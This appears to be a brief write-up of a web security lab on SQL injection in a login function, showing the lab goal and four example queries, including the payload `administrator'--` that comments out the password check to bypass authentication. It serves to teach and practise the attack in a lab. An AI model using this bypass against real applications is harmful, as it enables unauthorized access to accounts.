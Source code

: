 This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the `administrator` user.

---

**Analysis:** 

```sql
SELECT firstname FROM users where username='admin' and password='admin'

SELECT firstname FROM users where username=''' and password='admin'

SELECT firstname FROM users where username='administrator'--' and password='admin'

SELECT firstname FROM users where username='admin'
```

